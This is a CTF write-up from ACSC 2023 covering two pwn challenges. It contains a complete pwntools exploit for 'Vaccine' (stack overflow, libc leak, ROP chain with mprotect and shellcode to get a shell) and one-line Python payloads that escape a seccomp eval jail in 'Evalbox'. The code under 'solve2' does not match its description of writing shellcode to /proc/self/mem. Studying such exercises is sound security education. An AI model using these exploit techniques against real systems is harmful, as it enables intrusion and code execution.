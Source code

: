 ```yaml
---
title: 「PWN」【ACSC 2023】Writeup WP 复现
authors: [nova]
tags: ["CTF", "Pwn", "writeup", "wp"]
---
```


This is an individual competition, but I have already forgot things for Web or Rev, let along Crypto. Meanwhile, we can not solve the hard challenges, so uh-hum, let's just say I'm not participate for the sake of the ranks LOL

<!--truncate-->

## Vaccine

The program uses a `scanf` to receive our input, therefore we have no length limit, and we can just modify _s_ to be the same as _s2_.

![image-20230227192106762](https://oss.nova.gal/img/image-20230227192106762.png)

Then, we'll be able to leak the libc_address and ret2libc by simply doing a stack overflow and changing the return address.

At first, I used a wrong libc version and there's no one_gadgets available, so I used the `mprotect` and shellcode to get the shell, which makes all things complicated.

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./vaccine'])
sh = remote('vaccine-2.chal.ctf.acsc.asia', 1337)
elf = ELF('./vaccine')
# libc = ELF('./libc6-i386_2.31-9_amd64.so')  # wrong libc lol
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

pop_rdi_ret = 0x401443
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

# gdb.attach(sh, 'b *0x00000000004013D7')
# pause()
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)
sh.recvuntil(b'castle\n')

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x84420
mprotect = libc_base + libc.sym['mprotect']
read = libc_base + libc.sym['read']
pop_rsi_ret = libc_base + 0x02601f
pop_rdx_r12_ret = libc_base + 0x119211

print(hex(libc_base))
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(elf.bss() & (~0xfff)) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7)*2 + p64(mprotect)
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(elf.bss() + 0x50) + p64(pop_rdx_r12_ret) + p64(0x1000)*2 + p64(read) + p64(elf.bss() + 0x50) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)

sh.sendline(asm(shellcraft.sh()))

sh.interactive()
```

## Evalbox

This is a really interesting challenge.

```python
#!/usr/bin/env python3
import seccomp

if __name__ == '__main__':
    f = seccomp.SyscallFilter(defaction=seccomp.ALLOW)
    f.add_rule(seccomp.KILL, 'close')
    f.load()
    eval(input("code: "))
```

It will `eval` anything we input, but it also prohibit all functions calling for `close`

In `Dockerfile`, we know that we should first get the filename of the flag.

At first I though it might be some differences between `seccomp.so` and [seccomp.pyx](https://github.com/seccomp/libseccomp/blob/main/src/python/seccomp.pyx). So I tried to compile this `.pyx` file and try using bindiff between this two files, but I failed :(

But there's actually many ways to bypass this jail.

### solve 1

This exp is in a pure python way.

we can use `os.scandir(os.open(".", 0))` to get all files in `.` directory, and we can use `print(os.open(filename, 'r').read())` to get the content of the file.

let's just shorten it with only one line.

```python
print(os:=__import__('os'), d:=os.scandir(os.open(".", 0)), f:=open(next(filter(lambda x: x.name.startswith("flag"), d))), f.read(), sep='\n\n')
```

### solve2

we can open `/proc/self/mem` and write shellcode on `.text` segment.

```
print(os:=__import__('os'), f:=open('flag-31540753807ba7099ea27997ca43e280.txt', 'r'), f.read())
```
